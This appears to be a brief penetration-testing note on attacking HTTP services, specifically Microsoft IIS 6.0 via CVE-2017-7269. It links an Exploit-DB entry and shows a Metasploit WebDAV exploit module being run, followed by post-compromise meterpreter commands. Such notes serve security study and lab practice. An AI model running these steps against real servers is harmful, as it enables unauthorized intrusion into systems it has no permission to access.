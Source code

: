 # HTTP



```bash
Microsoft IIS version 6.0
```

CVE-2017-7269

{% embed url="https://www.exploit-db.com/exploits/41738" %}

<pre class="language-bash"><code class="lang-bash">msf exploit(iis_webdav_scstoragepathfromurl) > run
<strong>meterpreter > getuid
</strong>meterpreter > pwd
meterpreter > sysinfo
</code></pre>
